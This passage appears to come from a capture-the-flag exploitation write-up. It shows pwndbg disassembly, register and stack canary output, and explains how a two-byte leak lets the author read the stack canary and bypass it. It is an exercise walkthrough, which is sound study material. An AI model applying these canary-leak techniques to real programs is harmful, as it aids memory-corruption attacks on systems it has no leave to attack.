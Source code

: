 ```
 
   0x555555400d0e    lea    rax, [rbp - 0x60]
   0x555555400d12    mov    esi, 0x100
   0x555555400d17    mov    rdi, rax
 ► 0x555555400d1a    call   0x555555400aca                <0x555555400aca>
 
   0x555555400d1f    lea    rax, [rbp - 0x60]
   0x555555400d23    mov    edx, 3
   0x555555400d28    lea    rsi, [rip + 0x1d6]
   0x555555400d2f    mov    rdi, rax
   0x555555400d32    call   strncmp@plt                <strncmp@plt>

pwndbg> ni
create

pwndbg> c
```

After this the program should have break at address `0x555555400d80` which is right before our call to `create` where we want to be.

Looking at eax show that we were right on our theory about how this program works.

```
pwndbg> i r eax
eax            0xb0ef              45295
```

## Canaries
Knowing we can leak 2 bytes from pretty much anywhere in our program, we can use this to leak the value of the stack canary and therefore bypass it easily.
```
pwndbg> canary
AT_RANDOM = 0x7fffffffe119 # points to (not masked) global canary value
Canary    = 0xe6fa82bd5de3ae00 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7fffffffd988 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffda48 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffda58 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdaa8 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdab8 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdac8 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdb18 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdbc8 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdc58 ◂— 0xe6fa82bd5de3ae00
00:0000│  0x7fffffffdd18 ◂— 0xe6fa82bd5de3ae00
```

We can notice that valid canaries have the value `0xe6fa82bd5de3ae00` *note that this value change every time we run the program*, and we are looking particularly for one that is located after our `/dev/urandom bytes buffer` at address `0x7fffffffdbf6`, the reason why is that our input is treated as a unsigned integer which means we can't use any negative offsets.

